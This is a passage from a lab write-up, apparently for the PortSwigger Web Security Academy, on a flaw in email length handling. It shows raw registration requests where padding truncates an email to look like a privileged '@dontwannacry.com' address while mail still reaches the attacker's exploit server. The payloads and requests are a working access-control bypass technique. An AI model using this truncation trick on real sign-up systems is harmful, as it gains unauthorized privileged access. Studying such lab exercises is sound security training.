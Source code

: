 ```
POST /register HTTP/2
Host: 0a5a00e6033f4d49815f495b000b0036.web-security-academy.net
Cookie: session=8ZeEl62eJXEmw7NLgew6OUdhK4NuHdox
Content-Length: 393
Origin: https://0a5a00e6033f4d49815f495b000b0036.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36

csrf=feIxtRe1eH6fTIQJUlvqZUlytulSnQqO&username=test1&email=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%40exploit-0ac7006a03774de781cf48ef01bb0020.exploit-server.net&password=test
```

As you can see above we use lots of `A` in our email and send that request to the server.  They didn't give us any error and sent the activation code to our email server. In our email server, we received the activation link and after clicking on it our account is also get registered. Everything is normal in login process the except for the reflected email this time they didn't show us the full email that we use in the registration process. They cut the email and only show us the email like the following.

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%40exploit-0ac70
```

Where the end part of our email goes? did they cut it, I don't know anything about that but one thing is for sure they add some string limitation in the email. From the above email, we see they strip the last email characters and we can calculate the number of characters they accept, so what if we make an email that will look like the following?

```
[Random String]@dontwanacry.com.[Our Lab Providing Email]
```

There we add a random string from the start and then add `@dontwanacry.com` in it and then use our lab-provided email client email as a subdomain in it like the following.

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8A%40dontwannacry.com.exploit-0ac7006a03774de781cf48ef01bb0020.exploit-server.net
```

> **Note:** The offset number may be different in your lab for me the total length of the Random string is  `238` and after that, I use `@dontwanacry.com` and exploit server email.

The request looks like the following.

```
POST /register HTTP/2
Host: 0a5a00e6033f4d49815f495b000b0036.web-security-academy.net
Cookie: session=8ZeEl62eJXEmw7NLgew6OUdhK4NuHdox
Content-Length: 393
Origin: https://0a5a00e6033f4d49815f495b000b0036.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36

csrf=feIxtRe1eH6fTIQJUlvqZUlytulSnQqO&username=test1234&email=Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8A%40dontwannacry.com.exploit-0ac7006a03774de781cf48ef01bb0020.exploit-server.net&password=test
```
